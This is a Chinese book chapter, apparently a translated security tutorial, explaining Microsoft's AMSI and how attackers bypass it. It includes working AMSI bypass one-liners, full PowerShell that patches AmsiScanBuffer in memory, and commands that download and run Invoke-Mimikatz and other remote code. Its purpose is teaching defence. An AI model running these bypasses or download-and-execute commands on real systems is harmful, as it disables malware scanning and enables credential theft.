# 第十二章：探索反恶意软件扫描接口（AMSI）

过去，攻击者通常使用脚本或可执行文件让恶意软件在客户端系统上运行。但随着反病毒产品逐年提升，基于文件的恶意软件变得更容易被识别和移除。

对于恶意软件作者来说，这是一个严重的问题，他们试图绕过它，因此他们想出了直接在内存中运行恶意代码的解决方案，而不触及硬盘。具体来说，像 PowerShell、VBScript、JavaScript 等内置程序和其他工具被用来运行恶意软件攻击。攻击者变得富有创意，并混淆他们的代码，使其不容易被识别为恶意软件。

微软提出了解决方案，用于在运行代码之前进行检查，这就是**反恶意软件扫描接口**（**AMSI**）。AMSI 已相应发展，甚至可以防御最复杂的攻击。然而，攻击者和防御者之间的猫鼠游戏依然在不断进行。

本章将介绍 AMSI 的工作原理，以及攻击者如何试图绕过它。我们将讨论以下内容：

+   什么是 AMSI，如何工作？

+   为什么选择 AMSI？一个实际的例子

+   绕过 AMSI：PowerShell 降级攻击、配置篡改、内存补丁、钩子技术和动态链接库劫持

+   混淆和 Base64 编码

# 技术要求

为了最大限度地利用本章内容，请确保你具备以下条件：

+   PowerShell 7.3 及以上版本

+   安装了 Visual Studio Code

+   安装了 Ghidra

+   一些关于汇编代码和调试器的基本知识

+   本章的 GitHub 存储库访问：

[`github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/tree/master/Chapter12`](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/tree/master/Chapter12)

# 什么是 AMSI，如何工作？

AMSI 是一个旨在帮助防御恶意软件的接口。不仅 PowerShell，其他语言如 JavaScript 和 VBScript 也可以从中受益。它还为第三方和自定义应用程序提供了保护用户免受动态恶意软件攻击的选项。它是在 Windows 10/Windows Server 2016 中引入的。

目前，AMSI 支持以下产品：

+   PowerShell

+   Office Visual Basic for Applications 宏

+   VBScript

+   Excel 4.0（XLM）宏

+   Windows 管理工具

+   动态加载的.NET 程序集

+   JScript

+   MSHTA/JScript9

+   用户帐户控制

+   Windows 脚本宿主（`wscript.exe` 和 **cscript.exe**）

+   支持 AMSI 的第三方产品

像其他 API 一样，AMSI 提供了 Win32 API 和 COM API 的接口。AMSI 是一个开放标准，因此不限于 PowerShell；任何开发者都可以根据需要开发其应用程序以支持 AMSI，并且任何注册的反恶意软件引擎都可以处理通过 AMSI 提供的内容，正如下图所示的 AMSI 架构：



图 12.1 – AMSI 架构

在本章中，我将仅讨论通过 PowerShell 启动 AMSI 时发生的情况，但请注意，对于前面列出的所有其他产品，它的工作原理类似。

当 PowerShell 进程被创建时，`amsi.dll` 被加载到其进程内存空间中。现在，每当尝试执行脚本或即将运行命令时，都会首先经过 `amsi.dll`。在 `amsi.dll` 内部，`AmsiScanBuffer()` 和 `AmsiScanString()` 函数负责确保所有即将运行的命令或脚本在执行之前都会通过本地安装的防病毒解决方案扫描是否存在恶意内容：



图 12.2 – AMSI 功能

`Amsi.dll` 然后记录代码的行为并检查当前的防病毒软件是否创建了与此行为匹配的签名。默认情况下配置了 Windows Defender，但 AMSI 也提供了一个接口，用于与其他第三方防恶意软件程序进行交互。

如果签名匹配，则阻止代码执行。如果一切看起来正常，则执行代码。

# 为什么选择 AMSI？一个实际例子

在我们深入了解 AMSI 是什么之前，让我们先看看 *为什么*。正如我在本章开头提到的，这是攻击者和防御者之间的持续战斗。攻击者试图发动成功的攻击，而防御者则试图阻止它们。

在早期，攻击者很容易做到。通常，他们只需编写一个脚本来执行其恶意操作，但很快，防御者做出了反应，以便检测和阻止他们的恶意意图。攻击者不得不混淆他们的行动来发动成功的攻击。

为了分析内容，反恶意软件供应商可以创建自己的进程内 COM 服务器（DLL），作为 AMSI 提供程序，并将其注册在以下注册表路径下：

+   `HKLM\SOFTWARE\Microsoft\AMSI\Providers`

+   `HKLM\SOFTWARE\Classes\CLSID`

供应商可以注册一个或多个 AMSI 提供程序 DLL。

当应用程序（如 PowerShell）将内容提交给 AMSI 进行扫描时，供应商的 AMSI 提供程序 DLL 接收并分析内容。提供程序 DLL 分析内容并以 `AMSI_RESULT` 枚举值的形式向原始应用程序返回决策，指示代码是否被视为恶意。

如果结果是 `AMSI_RESULT_DETECTED` 并且未采取预防措施，则由提交应用程序决定如何处理已识别的恶意内容。

为了检测恶意脚本和活动，反恶意软件解决方案通常使用签名，需要频繁更新以应对新威胁。

PowerShell 脚本本质上是文本文件，这意味着它们必须经过字符串解析才能识别恶意行为。当脚本被混淆时，检测恶意代码变得更加困难。混淆技术变化多端，通常需要解包器来检查软件的内部工作原理，以识别任何恶意行为或代码，并针对可能发生的每种混淆类型进行处理。

对攻击者而言，哈希碰撞、修改变量或参数，以及增加混淆层都是微不足道的事情，但对于防御者来说，通过使用签名来检测恶意活动却非常困难。

在其他形式的代码（如字节码或中间语言）中，指令会被编译成一组有限的指令，这使得模拟 API 变得更加容易。然而，对于脚本来说，情况则不同，这使得编写签名变得更加困难。

在接下来的章节中，我们将通过六个示例来帮助你理解为什么以及如何像 AMSI 这样的解决方案可以扩展常规反恶意软件引擎的功能，以及防御者在试图领先于恶意软件作者时在脚本编写中面临的挑战。请不要将每个示例当作单独的案例来看，而是将其作为一个整体故事来阅读。我已经为示例编号，以便于跟踪。你还可以在本章的 GitHub 仓库中找到代码（以及编码代码）：[`github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter12/Examples_whyAMSI.ps1`](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter12/Examples_whyAMSI.ps1)。

## 示例 1

让我们看一个应该代表恶意代码的脚本。在这种情况下，它是无害的，因为它仅在命令行中输出`Y0u g0t h4ck3d!`，如下面所示：

```
function Invoke-MaliciousScript {
    Write-Host "Y0u g0t h4ck3d!"
}
Invoke-MaliciousScript
```

防御者现在可以编写一个非常简单的检测签名，查找`Write-Host "Y0u g0t h4ck3d!"` 字符串，以阻止该脚本的执行。

## 示例 2

假设攻击者需要想出一种新的方式来成功执行他们的脚本。那么，他们可能会开始将字符串拆分成多个部分，使用变量，并进行拼接：

```
function Invoke-MaliciousScript {
    $a = 4
    $output = "Y0" + "u g" + "0t h" + $a + "ck" + ($a - 1) + "d!"
    Write-Host $output
}
Invoke-MaliciousScript
```

旧的签名通过仅仅搜索字符串已不再匹配。为了应对这一变化，防御者开始构建简单的语言模拟。例如，如果发现某个字符串是由多个子字符串连接而成，新算法会模拟这种连接并与任何恶意模式进行匹配。

## 示例 3

此时，攻击者会尝试转向更复杂的方法——例如，通过使用 Base64 编码他们的有效载荷，并在运行脚本时解码，如下所示。`"WQAwAHUAIABnADAAdAAgAGgANABjAGsAMwBkACEA"` 字符串表示我们之前字符串`"Y0u** **g0t h4ck3d!"`的 Base64 编码版本：

```
function Invoke-MaliciousScript {
    $string = "WQAwAHUAIABnADAAdAAgAGgANABjAGsAMwBkACEA"
    $output = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($string))
    Write-Host $output
}
Invoke-MaliciousScript
```

但大多数反恶意软件程序幸运地已经实现了某种 Base64 解码仿真，因此大多数**反病毒**（**AV**）引擎仍然会捕捉到这个示例。

结果，攻击者会尝试想出更困难的方式来使检测变得更加困难 - 例如使用算法混淆。

## Example 4

对于以下示例，我已经使用简单的异或算法对我们的`"Y0u g0t h4ck3d!"`攻击字符串进行了编码，得到了`"SyJnMnUiZjJ6JnF5IXYz"`编码后的字符串。使用以下函数，我们可以使用`XOR`密钥`0x12`将字符串转换回原始模式：

```
function Invoke-MaliciousScript {
    $string = "SyJnMnUiZjJ6JnF5IXYz"
    $key = 0x12
    $bytes = [System.Convert]::FromBase64String($string)
    $output = -join ($bytes | ForEach-Object { [char] ($_ -bxor $key)})
    Write-Host $output
}
Invoke-MaliciousScript
```

现在，这个示例比普通反恶意软件引擎能够仿真的任何内容都要高级得多。因此，如果没有进一步的机制（如 AMSI），我们将无法检测到此脚本的操作。当然，防御者可以编写签名来检测混淆的脚本。

## Example 5

但是如果脚本看起来只是一个正常的、行为良好的脚本，但最终却从网络下载并在本地执行恶意内容，就像以下示例一样，你如何为其编写签名呢？

```
function Invoke-MaliciousScript {
    $output = Invoke-WebRequest https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter12/AMSIExample5.txt
    Invoke-Expression $output
}
Invoke-MaliciousScript
```

如果运行此代码，您仍将获得输出`"Y0u g0t h4ck3d!"`，我们通过上传到 GitHub 的脚本启动了该输出：[`github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter12/AMSIExample5.txt`](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter12/AMSIExample5.txt)。

现在我们已经到了几乎不可能写出签名以检测这种恶意行为而不会生成太多误报的地步。误报只会给分析人员带来太多工作，如果误报太多，可能会错过真正的威胁。所以，这是一个问题。但这正是 AMSI 发挥作用的地方。

## Example 6

现在，启用了 AMSI，让我们看看当我们重复上一个示例时的行为，但这次使用的是会触发 AMSI 的文件：[`github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter12/AMSIExample6.txt`](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter12/AMSIExample6.txt)。不用担心，对于这个示例，我们也没有使用真正的恶意代码 - 我们使用的是生成 AMSI 测试样本字符串的示例，**'AMSI 测试样本：7e72c3ce-861b-4339-8740-0ac1484c1386'**：



Figure 12.3 – 生成 AMSI 测试样本字符串的文件

如果我们现在从命令行或脚本中运行一个恶意命令，你会看到 AMSI 干预并在命令执行之前将其阻止：`Invoke-Expression (****Invoke-WebRequest** https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter12/AMSIExample6.txt**)`：



图 12.4 – AMSI 的工作过程

AMSI 阻止了执行，取决于你使用的反恶意软件引擎，你可以看到一个事件已经被生成。如果你使用的是默认的 Defender 引擎，你可以在`Defender/Operational`日志中找到所有 AMSI 相关的事件日志，事件 ID 为`1116`，如下所示的截图：



图 12.5 – 如果使用默认的 Defender 引擎，AMSI 相关事件会出现在 Defender/Operational 事件日志中。

现在你已经了解了 AMSI 的工作原理、为什么它是必要的以及它如何帮助防御，我们接下来将深入探讨对手是如何尝试绕过 AMSI 的。

# 绕过 AMSI

AMSI 在防止恶意代码执行方面对防御者非常有帮助。但如果攻击者没有尝试找到绕过 AMSI 的方法，他们就不再是攻击者了。在这一部分，我们将探讨一些常见的技术。

我遇到的大多数绕过方法都以某种方式尝试篡改`amsi.dll`。大多数情况下，目标是通过替换`amsi.dll`为自定义版本，或者完全避免使用`amsi.dll`，从而使恶意代码看起来干净。

通常，当人们发现新的绕过方法并写博客时，它会在发布后不久被修复并检测到。

Joseph Bialek 最初编写了`Invoke-Mimikatz.ps1`脚本，以通过 PowerShell 使所有 Mimikatz 功能可用。

`Invoke-Mimikatz`是`nishang`模块的一部分，可以从 GitHub 下载：[`raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1`](https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1)。

为了展示这里的示例，我创建了一个小模块，加载了`Invoke-Mimikatz.ps1`脚本。如果你想在你的演示环境中复现它，只需复制并粘贴原始代码：

```
New-Module -Name Invoke-MimikatzModule -ScriptBlock {
    Invoke-Expression (Invoke-WebRequest -UseBasicParsing "https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
    Export-ModuleMember -function Invoke-Mimikatz
} | Import-Module
```

你也可以在本章的 GitHub 仓库中找到这个小代码片段：[`github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter12/Demo_loadMimikatz.ps1`](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter12/Demo_loadMimikatz.ps1)。

免责声明

请确保此代码仅在你的演示环境中运行，而不是在你的生产机器上。

我在这些示例中使用的是 Windows PowerShell，而不是 PowerShell Core，因为这通常是攻击者的首选。使用 PowerShell Core 运行 Mimikatz 还会导致当前版本的 `Invoke-Mimikatz.ps1` 出现错误。

对于以下演示，**Windows Defender 实时保护** 被临时禁用以运行代码并将 Mimikatz 加载到内存中。如果一切正常，你现在将看到在运行 `Invoke-Mimikatz` 时的典型 Mimikatz 输出，如下截图所示：



图 12.6 – 从内存运行 Mimikatz

在 Mimikatz 加载后，Windows Defender 实时保护再次启用。通过这种方式，接下来的示例更容易演示 AMSI 的影响。

现在，如果实时保护成功启用，你将看到运行 Mimikatz 时的以下输出：



图 12.7 – Mimikatz 被 AMSI 阻止

该输出仅表示 AMSI 已经启用以保护这台机器，并且已阻止 `Invoke-Mimikatz` 命令的执行。

好的，现在我们可以开始演示示例了。

## 防止文件被检测或临时禁用 AMSI

大多数攻击尝试通过篡改 AMSI 库来防止恶意软件被扫描。

### PowerShell 降级攻击

避免 AMSI 的最简单方法之一是将 PowerShell 版本降级到不支持 AMSI 的早期版本。你可以在 *第四章*，“*检测 – 审计与监控*”中找到降级攻击的详细解释，因此此处不再详细描述。

当尝试从普通 PowerShell 控制台运行 `Invoke-Mimikatz` 时，AMSI 会介入并阻止命令的执行。

但是，如果机器上安装了 PowerShell 版本 2，攻击者将能够通过降级攻击运行以下命令，从而绕过 AMSI：



图 12.8 – Invoke-Mimikatz 可以在没有 AMSI 干扰的情况下执行

但是，如果系统进行了适当的加固，降级攻击应该是不可行的。

### 配置篡改

其中一个非常流行的 AMSI 配置更改示例是 Matt Graeber 的绕过方法，他在 2016 年通过 Twitter 进行了分享：



图 12.9 – Matt Graeber 2016 年的 AMSI 绕过

Matt 通过仅使用一行代码成功禁用了 AMSI：

```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

这个绕过方法只是将 `amsiInitFailed` 布尔值设置为 `$true`。这模拟了 AMSI 初始化失败，因此无法执行扫描，并且将禁用未来的 AMSI 扫描。

与此同时，业界能够编写检测规则来阻止这一特定的绕过，但它仍然是一个很好的例子，展示了禁用和绕过 AMSI 的一种方法。请记住，如果没有这些检测措施，绕过本身仍然能够通过 AMSI。

输出显示了被 AMSI 阻止的单行代码：



图 12.10 – AMSI 阻止了单行代码

当然，如果命令足够混淆，这个方法仍然可以奏效。这里使用的许多子字符串也被认为是恶意的，因此会被检测到。

很多签名被添加到某些触发词上，比如`amsiInitFailed`。其他研究人员也尝试找到一种绕过方法，灵感来自 Matt Graeber 的单行代码。其中一个绕过方法由 Adam Chester 在 2018 年发现：

```
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)
[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)
[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);
```

由于前一个绕过方法通过将`amsiInitFailed`设置为`$true`已经被攻击者和防御者非常熟知，因此大多数尝试与此标志互动的行为都是高度可疑的，因此会被检测到。但如果我们能够强制触发错误，而不查询可疑的标志，它基本上会产生相同的效果。这正是 Adam 绕过方法在这里所做的。

他通过篡改`amsiContext`和`amsiSession`强制触发错误。AMSI 初始化将失败，并且该会话中的未来扫描将无法进行。

你可以阅读 Adam 如何发现这个绕过方法以及其他有趣的方式，详见这篇博客文章：[`www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/`](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)。

当然，在这段时间里，为了应对这一特定的绕过方法，新的签名已经被添加，因此没有混淆的情况下已经不再有效。

### DLL 劫持

避免代码被 AMSI 扫描的另一种方法是**DLL 劫持**。在这种攻击中，`amsi.dll`基本上被替换为一个修改过的版本，这个版本不会干扰正在尝试执行的（恶意）代码。

值得注意的是，如果攻击者能够在系统上删除或替换 DLL 并执行任意代码，那么运行 PowerShell 可能是你最不需要担心的问题之一。

2016 年，Cornelis de Plaa 发现了一种使用 DLL 劫持的 AMSI 绕过方法。他在一个文件夹中创建了一个空的`amsi.dll`文件，并将`powershell.exe`复制到同一目录中。启动复制的 PowerShell 后，原始的`amsi.dll`文件没有被加载，而是加载了伪造的`amsi.dll`文件进入内存，当然，这个文件并没有检查执行的代码。

在 2016 年 3 月 28 日将此漏洞报告给微软 MSRC 后，他们实施了一个修复程序，这导致 PowerShell 在加载空的`amsi.dll`文件后无法正常工作。



图 12.11 – 加载空的 amsi.dll 文件后，PowerShell 管道中断

2020 年 6 月，Philippe Vogler 找到了复活这个旧 AMSI 绕过的方法。他创建了一个`amsi.dll`文件，至少可以调用所有正常`amsi.dll`文件中包含的函数，但这些函数只是普通的虚拟函数，因此不会执行任何检查。通过这个文件，他成功地通过 DLL 劫持再次绕过了 AMSI。

你可以在他的博客上找到更多信息：[`sensepost.com/blog/2020/resurrecting-an-old-amsi-bypass/`](https://sensepost.com/blog/2020/resurrecting-an-old-amsi-bypass/)。

同时，确保查看 Cornelis de Plaa 的博客，了解他是如何发现原始 AMSI DLL 劫持绕过的：[`cn33liz.blogspot.com/2016/05/bypassing-amsi-using-powershell-5-dll.html`](http://cn33liz.blogspot.com/2016/05/bypassing-amsi-using-powershell-5-dll.html)。

### 内存补丁

内存补丁是一种红队人员常用的技术，用于在不改变可执行文件或文件戳的情况下修改程序内存。当涉及到使用内存补丁来绕过 AMSI 时，攻击者通常尝试修改内存调用，以使`amsi.dll`无法正确执行，从而跳过检查例程。

让我们首先从内存的角度看一下它的样子。为此，我们可以选择一个调试工具打开`amsi.dll`。在这个例子中，我将使用开源工具 Ghidra。

第一步，将`amsi.dll`导入 Ghidra，然后在项目中打开它。通常，`amsi.dll`位于`C:\Windows\System32\amsi.dll`。

我们可以看到`amsi.dll`中所有可用的函数——这是为了我们的实验。`AmsiScanBuffer`和`AmsiScanString`函数特别值得关注。



图 12.12 – amsi.dll 中的函数

Ghidra 提供了一个非常强大的反编译功能。所以，如果我们首先查看`AmsiScanString`函数，我们可以很快发现这个函数也调用了`AmsiScanBuffer`函数。因此，`AmsiScanBuffer`可能是最有吸引力的目标，因为看起来如果我们修改这个函数的内存，就可以同时覆盖两个用例：`AmsiScanBuffer`和`AmsiScanString`。



图 12.13 – 反编译后的 AmsiScanString 函数

所以，我们基本上需要做的就是首先找出当前加载的`amsi.dll`文件中`AmsiScanBuffer`函数的起始地址。

一旦我们知道了这个地址，我们可以尝试操作内存，使得它不会跳转到实际的`AmsiScanBuffer`函数，而是跳过它。当我们在内存/汇编级别进行操作时，有一个技巧可以帮助我们实现这一目标。`RET`指令表示子程序的结束并返回到最初调用它的代码。所以，如果我们用`RET`指令覆盖`AmsiScanBuffer`子程序的前几个字节，这个函数就会被终止而不扫描任何内容。

一旦我们完成这一步，我们就可以在当前会话中执行所有想要的 PowerShell 代码，而不会被检查。但是，类似地，如果攻击者能够编辑系统中进程的任意内存，你可能会面临更大的问题。

让我们看看如何在 PowerShell 中实现这一点。`kernel32.dll`文件提供了使用 PowerShell 访问内存的函数，特别是`GetModuleHandle`、`GetProcAddress`和`VirtualProtect`函数。因此，让我们将这些函数导入到当前的 PowerShell 会话中：

```
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
public static class Kernel32
{
    [DllImport("kernel32", SetLastError=true, CharSet = CharSet.Ansi)]
        public static extern IntPtr GetModuleHandle(
            [MarshalAs(UnmanagedType.LPStr)]string lpFileName);
    [DllImport("kernel32", CharSet=CharSet.Ansi, ExactSpelling=true, SetLastError=true)]
        public static extern IntPtr GetProcAddress(
            IntPtr hModule,
            string procName);
    [DllImport("kernel32", CharSet=CharSet.Ansi, ExactSpelling=true, SetLastError=true)]
        public static extern IntPtr VirtualProtect(
            IntPtr lpAddress,
            UIntPtr dwSize,
            uint flNewProtect,
            out uint lpflOldProtect);
}
"@
```

使用`Kernel32`中的`GetModuleHandle`函数，我们将获取加载到当前进程中的`amsi.dll`文件的句柄。句柄是模块的基址，因此通过这一步，我们将找出模块在内存中的起始位置：

```
$AmsiHandle = [Kernel32]::GetModuleHandle("amsi.dll")
```

许多 AV 产品将检测到试图篡改`AmsiScanBuffer`函数的脚本。因此，为了避免被检测到，我们需要将函数名拆分为两个命令：

```
$FuncName = "AmsiScan"
$FuncName += "Buffer"
```

一旦完成此操作，我们可以检索`AmsiScanBuffer`的进程地址，以便稍后尝试覆盖它：

```
$FuncPtr = [Kernel32]::GetProcAddress($AmsiHandle, $FuncName)
```

下一步，我们需要取消保护要覆盖的内存区域：

```
$OldProtection = 0
[Kernel32]::VirtualProtect($FuncPtr, [uint32]1, 0x40, [ref]$OldProtection)
```

最后，我们将`AmsiScanBuffer`函数的第一个字节覆盖为`RET`，这表示子例程的结束。在汇编中，`0xC3`等于`RET`：

```
$Patch = [Byte[]] (0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $FuncPtr, 1)
```

现在应该可以运行任何你喜欢的命令，而不被 AMSI 检查。

**'AMSI 测试样本：7e72c3ce-861b-4339-8740-0ac1484c1386'**字符串也可用于 AMSI 测试。它类似于 EICAR 文件，您可以使用它来测试您的 AV 的功能，但用于 AMSI。如果启用了 AMSI，AMS

以下截图显示在使用 AMSI 测试样本时首先触发错误，但在执行 AMSI 绕过后，AMSI 测试样本可以正常运行：

